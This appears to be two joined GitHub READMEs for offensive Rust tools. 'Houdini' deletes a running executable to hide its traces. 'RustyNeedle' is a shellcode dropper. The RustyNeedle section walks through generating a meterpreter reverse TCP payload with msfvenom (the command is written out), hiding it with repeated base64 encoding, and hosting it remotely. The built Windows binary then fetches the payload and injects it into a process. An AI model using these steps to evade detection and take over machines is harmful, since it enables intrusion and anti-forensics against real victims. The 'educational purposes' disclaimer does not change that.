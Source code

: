 # Houdini
`Houdini` is a rust library that allows you to delete your executable while it's running.  

This is fairly straightforward for unix systems, since the executable is released after getting mapped to the memory. 
We just need to find where it is and unlink it.

On Windows, we use a method discovered by [@jonasLyk](https://twitter.com/jonasLyk/status/1350401461985955840). 
My implementation heavily references [@byt3bl33d3r](https://twitter.com/byt3bl33d3r)'s Nim implementation in [OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/self_delete_bin.nim)
and in turn LloydLabs' initial [`C` PoC](https://github.com/LloydLabs/delete-self-poc).

## Usage

```rust
// With a default placeholder value on windows (`svcmsrpc`)
use houdini;

fn main() {
    match houdini::disappear() {
        Ok(_) => println!("Pulled a Houdini!!"),
        Err(e) => println!("Nope! => {}", e),
    };
}
```

```rust
// With a placeholder you provide
use houdini::disappear;

fn main() {
    #[cfg(target_os = "windows")]
    match houdini::disappear_with_placeholder("temporary") {
        Ok(_) => println!("Pulled a Houdini!!"),
        Err(e) => println!("Nope! => {}", e),
    };
}
```

# RustyNeedle

**THIS CODE IS FOR EDUCATIONAL PURPOSES ONLY. I take no responsibility if you decide to do crimes with this code.**

A simple dropper for shellcode that leverages the power of...base64 encoding??

No seriously. And it works. Here's how:

## Usage

1. Create your shellcode however you like, be it with `msfvenom` or other tools. Export the raw shellcode file.

2. Use the encode.py script provided in this repository to create an encoded version of the shellcode. 

```bash
python3 encode.py [SHELLCODE_FILE] [B64_ITERATIONS] [OUT_FILE]
```

### Arguments

* `SHELLCODE_FILE`: raw shellcode file to encode
* `B64_ITERATIONS`: # of times to base64-encode the shellcode
* `OUT_FILE`: Resulting text file of the encoded shellcode. **NOTE:** this will be many times larger than the source!

### Alternative usage

If you don't want to use the script, you can also encode raw shellcode from `msfvenom`. It would go something like this:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f raw | base64 -w 0 > note.txt
# Pipe to base64 -w 0 as many times as you want to iterate the encoding
```
3. Edit the source code in `src/main.rs` to reflect the `URL` where the encoded shellcode will be hosted. Make sure `B64_TTERATIONS` matches what you created with `encode.py`. If you wish to use remote injection, change the `PROCESS_NAME` value as well.

4. Run `cargo build --target x86_64-pc-windows-gnu --release`. If building on Linux for Windows, make sure you've added the Windows target triple with `rustup target add x86_64-pc-windows-gnu`.

5. Copy the resulting exe in `target/x86_64-pc-windows-gnu/release/rustyneedle.exe` wherever you like.

6. Set up any listeners, then execute the dropper!


